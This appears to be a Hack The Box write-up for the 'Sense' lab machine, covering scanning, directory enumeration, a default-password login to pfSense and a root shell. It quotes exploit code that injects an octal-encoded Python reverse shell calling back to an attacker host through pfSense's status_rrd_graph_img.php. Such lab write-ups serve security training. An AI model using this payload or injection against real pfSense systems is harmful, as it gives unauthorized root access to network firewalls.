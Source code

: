 ```yaml
---
title:     "Hack The Box - Sense"
tags: [freebsd,easy,pfsense]
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled.png)

We are going to pwn Sense from Hack The Box.                                                             

Link: [https://www.hackthebox.eu/home/machines/profile/111](https://www.hackthebox.eu/home/machines/profile/111)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (86%), FreeBSD 8.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/o:freebsd:freebsd:8.1
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (86%), FreeBSD 8.1 (85%), OpenBSD 4.3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTPS Enumeration

When I tried to visit Port 80 first it redirects to `https`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%201.png)

Looks like its a `pfSense` login page.

> What is pfsense? **pfSense is an open source firewall/router computer software distribution based on FreeBSD. It is installed on a physical computer or a virtual machine to make a dedicated firewall/router for a network.**

I searched for default credentials and got this.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%202.png)

When I tried to login, it says Username or Password incorrect. I decided to run Gobuster

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/07/10 10:36:09 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
```

Ok we got an username finally and it says password is default one, which is `pfsense`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%203.png)

I tried login with `rohit : pfsense` the default password. And it worked.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%204.png)

Since we got the version of it, I decided to search for exploits and found this.

> [https://www.exploit-db.com/exploits/43560](https://www.exploit-db.com/exploits/43560)

## Getting Shell

According to exploit its looking for `/status_rrd_graph_img.php` to command injection. And helps us to get python reverse shell.

```python
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
```

so I decided to check whether its there or not? And Yes its there. Downloaded the exploit to my machine.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%205.png)

First I used `--help` parameter to know what going on and set those parameters and I got the shell.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sense/Untitled%206.png)

We don’t have to escalate privileges since pfSense is running as root and the command injection vulnerability leads to root shell.

We own the box.